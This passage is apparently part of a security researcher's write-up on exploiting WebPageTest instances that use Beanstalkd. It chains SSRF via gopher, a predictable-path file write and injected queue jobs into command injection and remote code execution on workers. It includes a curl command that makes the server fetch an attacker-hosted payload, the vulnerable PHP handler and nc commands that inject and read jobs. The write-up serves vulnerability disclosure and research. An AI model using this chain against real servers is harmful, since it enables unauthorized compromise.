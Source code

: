 
# 8. Exploitation for Beanstalkd users

Another way to use Web-Page-Test is to use Beanstalkd as a queue engine instead of relying on the filesystem. This seems much cleaner even though it does require extra configuration. I initially thought that the default configuration was using Beanstalkd. Nope.

We had an SSRF, which was allowing us (post-redirection) to use the gopher scheme so we could send arbitrary bytes on the loopback to any port. The Beanstalkd service was listening over a tcp socket. All this together meant that we could talk directly to the Beanstalkd interface, and try to read or inject new jobs! Sounds promising & exotic, right?

There are a few other preauth file writes present on the app, among those, one allows us to write arbitrary controlled content fetched by an SSRF to the filesystem, and the path is a SHA of its content split every four char. So it's a file write, to a predictable location.

From this, we can then inject a new job with our SSRF to force the worker to use this file, and that way use the same command injection to compromise the workers.

As `beanstalkd` wasn't part of the default configuration, I did not create a script to automate this process, but this is doable. I also did not take the time to investigate the feasibility of exploiting the master from the worker. I already had my RCE, the rest is just bonus! (Or fun side-project ideas for readers? :o )

```bash
curl -Skig "http://127.0.0.1/jpeginfo/jpeginfo.php?url=http://thinkloveshare.com/payload"
# Payload with it's SHA as filepath
# /var/www/html/results/jpeginfo/448c/6c9e/3e15/bfcf/db81/a1d6/92e8/8a71/5d4c/5e66
```

The code responsible of this behavior results in `www/jpeginfo/jpeginfo.php`:

```php
$url = trim($_REQUEST['url']);
echo "<!DOCTYPE html>\n<html>\n<head>\n</head>\n<body>\n";
echo "JPEG Analysis for " . htmlspecialchars($url) . "<br><br>";
$id = sha1($url);
$path = GetPath($id);
if (!is_file($path)) {
    GetUrl($url, $path); // Will write fetched url with: $imageFile = fopen($path, 'w');
}
if (is_file($path)) {
    AnalyzeFile($path);
}
echo "</body>\n</html>";
```

Command snippets used to discover the way beanstalkd works:

```bash
echo -e "put 1 0 1 5\r\npouet\r\n" | nc 127.0.0.1 11300
# INSERTED 2
echo -e "use default\r\npeek-ready\r\n" | nc 127.0.0.1 11300
# USING default
# FOUND 1 5
# pouet
```
